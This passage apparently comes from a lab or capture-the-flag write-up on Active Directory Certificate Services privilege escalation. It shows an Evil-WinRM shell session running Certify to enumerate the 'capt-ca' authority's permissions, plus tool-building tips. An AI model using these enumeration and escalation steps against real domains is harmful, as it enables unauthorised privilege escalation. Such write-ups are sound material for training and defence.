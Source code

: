 ```
PS C:\windows\tasks> Get-WindowsFeature -Name ADCS-Cert-Authority
Get-WindowsFeature -Name ADCS-Cert-Authority

Display Name                                            Name                       Install State
------------                                            ----                       -------------
    [X] Certification Authority                         ADCS-Cert-Authority            Installed

```

There are [many ways](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation) to escalate via AD CS in a domain. 


To interact with AD CS, we will use a great open source tool [Certify](https://github.com/GhostPack/Certify) by [harmj0y](https://twitter.com/harmj0y) and [tifkin_](https://twitter.com/tifkin_). The '/vulnerable' option checks for misconfigured certificate templates; however, we didn't find any. Nevertheless, since we are a member of 'Certificate Authority Admins,' we may have permissions to issue another certificate or modify certificate permissions.

> [!IMPORTANT]  
> Pre-compiled tools may not be compatible with the current machine. It is recommended to re-build both Certify and Rubeus on your local machine using Visual Studio.
> If you do so, don't forget to choose "Release" and "any CPU" options.   

```
*Evil-WinRM* PS C:\Users\ca_admin\Documents> .\certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=capt,DC=org'

[*] Listing info about the Enterprise CA 'capt-ca'

    Enterprise CA Name            : capt-ca
    DNS Hostname                  : dc01.capt.org
    FullName                      : dc01.capt.org\capt-ca
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=capt-ca, DC=capt, DC=org
    Cert Thumbprint               : 829C336B788EBB4A8602C061BD75CEF024BB61B6
    Cert Serial                   : 1D6245C40897D6A5438655E8FBA16DA1
    Cert Start Date               : 9/19/2023 10:58:01 AM
    Cert End Date                 : 9/19/2028 11:08:01 AM
    Cert Chain                    : CN=capt-ca,DC=capt,DC=org
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
      Allow  ManageCA, ManageCertificates               CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519
    Enrollment Agent Restrictions : None
```
